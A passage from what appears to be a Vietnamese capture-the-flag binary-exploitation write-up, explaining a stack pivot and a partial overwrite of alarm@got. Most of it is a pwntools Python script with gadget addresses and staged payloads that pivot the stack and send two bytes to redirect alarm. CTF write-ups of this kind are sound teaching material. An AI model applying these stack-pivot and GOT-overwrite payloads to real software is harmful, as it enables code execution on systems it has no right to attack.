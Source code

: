 Mình xây dựng lại cấu trúc bộ nhớ như sau, trong đó [0x404040] tiếp tục được trỏ tới 1 vùng nhớ không có dữ liệu ở phía dưới để phục vụ cho công việc [RSI] = 0, đồng thời 12 bits cuối cùng của `alarm@got` cũng bị overwrite. 

<img src="./imgs/2.png"/>

```python
pop_rdi = 0x401247
pop_rbp = 0x40119d
ret = 0x40101a
alarm_got = 0x404020

payload = flat(
    b'A' * 0x20, 
    alarm_got + 0x40, 
    0x401249
)

input('input 1: stack pivot')
p.send(payload)

payload = flat(
    alarm_got + 0x100, 
    0x401249,
    b'B' * 0x10,
    alarm_got + 0x20, 
    0x401249
)

input('input 2: stack pivot new area')
p.send(payload)

input('input 3: change 2 bytes')
p.send(b'\xc0\x41')

```
